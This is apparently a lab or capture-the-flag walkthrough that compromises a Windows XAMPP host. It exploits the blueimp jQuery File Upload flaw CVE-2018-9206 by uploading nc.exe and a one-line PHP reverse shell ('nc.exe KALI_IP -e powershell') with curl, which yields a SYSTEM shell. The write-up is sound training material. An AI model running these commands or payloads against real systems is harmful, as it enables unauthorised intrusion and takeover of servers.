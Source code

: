 # XOR-App59 (10.11.1.123)
***
## Enumeration
1. Enumerate running services using `nmap`
```
nmap -sV -sC -Pn 10.11.1.123
```

2. `nmap` was able to detect several running services, but for this machine, the area of interest is the **Apache** web server running on port **80**
``` 
80/tcp   open  http          Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.5)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.5
| http-title: Welcome to XAMPP
|_Requested resource was http://10.11.1.123/dashboard/
```

3. We performed a directory enumeration and discovered a directory called `/books` which shows a login page for an Accounting app.
![[xor-books.png]]

4. We checked on the source code of `http://10.11.1.123/books` and found a referenced to sub-directories called `/lib`, `/app` and `/portal`   
![[xor-subdir.png]]

5. We checked the content of `http://10.11.1.123/books/apps/` directory and found an interesting [jQuery plugin](https://github.com/blueimp/jQuery-File-Upload) called [`jQuery File Upload Plugin`](http://10.11.1.123/books/apps/jquery-file-upload/js/jquery.fileupload.js) by **BlueImp**
![[file-uploader.png]]

6. We searched for publicly disclosed vulnerabilties for `jQuery File Upload Plugin` and we found out that it has [unauthenticated arbitrary file upload vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2018-9206) affecting **v9.22.0 and lower versions** of that plugin.
> [!info] 
> [**CVE-2018-9206**](https://nvd.nist.gov/vuln/detail/CVE-2018-9206) - Unauthenticated arbitrary file upload vulnerability in Blueimp jQuery-File-Upload <= v9.22.0 
***
## Exploitation
> [!info] 
> Since the target is running an Apache web server (that means it uses `PHP` as programming language), and we have a way to upload any files (with any extensions). We will going to upload a PHP shell to execute OS commands and take control of the target. 

1. First, we need to download `netcat` executable. You can get it from [here](https://github.com/int0x33/nc.exe/raw/master/nc.exe).
```
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe
```

2. We create a simple PHP shell to which runs our back-connect. Save it as `shell.php
   
``` php
<?php system('nc.exe KALI_IP -e powershell');?>
```
> [!note] 
> Replace the `KALI_IP` with your Kali's IP address    

3. Upload our downloaded `netcat` executable using the following command   
``` 
curl -F "files=@nc.exe" http://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```

4. Upload our PHP shell using the following command
```
curl -F "files=@shell.php" http://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```  
   
5. Start a `netcat` listener on port **9001**
```
nc -lvnp 9001
```

6. Execute the shell 
```
curl http://10.11.1.123/books/apps/jquery-file-upload/server/php/files/shell.php
```

7. You should get a reverse shell(powershell) running as `nt authority\system` 
![[xor-whoami.png]]
***
## Post-exploitation
1. Since the shell we have is already running as `nt authority\system`, we will now be able to read the flag.   
![[xor-app59-proof.png]]   
   